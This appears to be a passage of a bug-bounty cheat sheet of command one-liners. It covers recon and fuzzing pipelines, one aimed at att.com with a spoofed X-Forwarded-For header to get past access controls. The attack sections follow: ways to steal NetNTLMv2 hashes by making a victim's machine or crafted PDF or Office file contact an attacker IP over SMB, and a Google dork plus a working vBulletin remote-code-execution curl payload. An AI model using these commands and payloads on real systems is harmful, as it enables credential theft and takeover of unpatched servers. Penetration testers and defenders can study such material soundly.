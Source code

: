 ![response-split](img/reponse-splitting.jpg)
#### Tricks from OFJAAAH
```sh
assetfinder http://att.com | sed 's#*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w path.txt -u @/FUZZ -mc 200 -H "Content-Type: application/json" -t 150 -H "X-Forwarded-For:127.0.0.1"'
```
---
```sh
echo "domain" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```
---
##### Extract URL from .apk
```sh
apktool -d com.uber -o uberAPK; grep -Phro "(https?://)[\w\,-/]+[\"\']" uberAPK/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|schemes.android\|google\|goo.gl"
```
It's Better good to include the tweet URLs
##### OFJAAAH important Tweets
- https://twitter.com/ofjaaah/status/1301656601724583936?s=20
- https://twitter.com/ofjaaah/status/1301666599259299841?s=20
- https://twitter.com/ofjaaah/status/1301670965672374273?s=20
- https://twitter.com/ofjaaah/status/1301698412061097985?s=20
- https://twitter.com/ofjaaah/status/1301884598603964417?s=20
- https://twitter.com/KingOfBugbounty/status/1301945115620016130?s=20
- https://twitter.com/vrkaushik/status/1301950916786966528?s=20
- https://twitter.com/ofjaaah/status/1301979769471463426?s=20
- https://twitter.com/ofjaaah/status/1302080260717121536?s=20
- https://twitter.com/ofjaaah/status/1302214901314629635?s=20
- https://twitter.com/sec715/status/1302112348769931265?s=20
- https://twitter.com/KingOfBugbounty/status/1302381012119441412?s=20
- https://twitter.com/ofjaaah/status/1302713182964809728?s=20
- https://twitter.com/ofjaaah/status/1302713182964809728?s=20
- https://twitter.com/ofjaaah/status/1302524437091291138?s=20
- https://twitter.com/ofjaaah/status/1303030877560209409?s=20

### Steal NetNTLMv2 hashes by changing SMB PORT
```powershell
net use \\IP@80\t
or pdf: /F(\\\\IP@80\\t)
or subdoc: ///IP@80/t
or doc: Target="file://IP@80/t.dotx"
or Ink:URL=file://IP@80/t.htm
```
### RCE on Bulletin 5xx
#### Google Dork
intext: "Powered by vBulletin"
##### Proof of Concept
```sh
curl -s http://SITE/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=echo%20shell_exec("id");exit;'
```